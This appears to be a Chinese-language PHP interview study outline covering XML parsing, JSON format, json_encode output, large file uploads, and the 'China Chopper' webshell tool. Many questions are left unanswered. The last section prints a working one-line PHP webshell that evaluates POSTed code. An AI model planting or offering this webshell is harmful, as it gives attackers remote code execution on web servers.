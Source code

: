 ## DOM方式解析xml有什么特点？

> DOM 将 XML 文档作为一个树形结构，而树叶被定义为节点。

## XMLReader和XML Parser如何解析xml文件？

## 标准的JSON格式是什么？

JSON建构于两种结构：

* “名称/值”对的集合（A collection of name/value pairs）。不同的语言中，它被理解为对象（object），纪录（record），结构（struct），字典（dictionary），哈希表（hash table），有键列表（keyed list），或者关联数组 （associative array）。
* 值的有序列表（An ordered list of values）。在大部分语言中，它被理解为数组（array）。

## 如何格式化输出JSON？

## 如何让json_encode的结果显示中文？

`echo json_encode(array('a' => '中文'), JSON_UNESCAPED_UNICODE);`

---

# PHP大文件上传的原理和实现

## 有哪些技术可以实现大文件上传？

1. HTML Form（可含Javascript、Ajax）。
2. RIA技术（Flex、Silverlight、JavaFX等）。
3. 插件技术（Acticx、Applet等）。

## Ajax2.0有哪些新特性？

## 如何用XMLHttpRequest实现大文件上传和断点续传？

---

# “中国菜刀”和一句话木马

## 什么是木马，如何编写一句话木马？

`<?php @eval($_POST[value]);?>`

## 什么是“中国菜刀”, 如何用“中国菜刀”？

## 如何防范网页木马？
